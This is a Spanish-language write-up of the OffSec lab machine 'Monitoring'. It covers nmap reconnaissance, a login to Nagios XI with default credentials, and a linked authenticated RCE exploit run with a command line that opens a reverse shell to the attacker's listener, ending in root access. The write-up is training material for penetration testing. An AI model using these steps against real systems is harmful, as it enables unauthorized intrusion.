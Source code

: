 ```yaml
---
description: '✍️ Autor: OffSec 🔍 Dificultad: Fácil'
---
```


# Monitoring

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.197.136
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 192.168.197.136
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como se puede observar durante el escaneo, los siguientes puertos se encuentran abiertos:

* **Puerto 22**, correspondiente al servicio **SSH**.
* **Puerto 25**, correspondiente al servicio **SMTP**.
* **Puerto 80**, correspondiente al servicio **HTTP**.
* **Puerto 389**, correspondiente al servicio **LDAP**.
* **Puerto 443**, correspondiente al servicio **HTTPS**.

Dado que estos servicios están accesibles, se procederá a realizar un análisis más detallado sobre cada uno de ellos con el fin de identificar posibles vectores de ataque o configuraciones incorrectas.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,25,80,389,443 -v 192.168.197.136
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Comprobamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es una página de Nagios XI y al dar a acceder se nos muestra el panel de Login. Tras buscar las contraseñas por defecto nos logueamos (nagiosadmin:admin).

{% embed url="https://bobcares.com/blog/nagios-reset-password-for-nagiosadmin/" %}

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando la página encontramos una versión por lo que miramos a ver si tiene un exploit.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Sí tiene exploit por lo que lo ejecutamos y así conseguimos una ejecución remota de código.

{% embed url="https://www.rapid7.com/db/modules/exploit/linux/http/nagios_xi_mibs_authenticated_rce/" %}

{% @github-files/github-code-block url="https://github.com/hadrian3689/nagiosxi_5.6.6/blob/main/exploit.py" %}

Nos descargamos el exploit y lo ejecutamos.

```bash
python3 exploit.py -t http://192.168.197.136/ -b /nagiosxi/ -u nagiosadmin -p admin -lh 192.168.45.157-lp 4444
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Mientras nos ponemos en escucha.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

y sí somos **root**.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
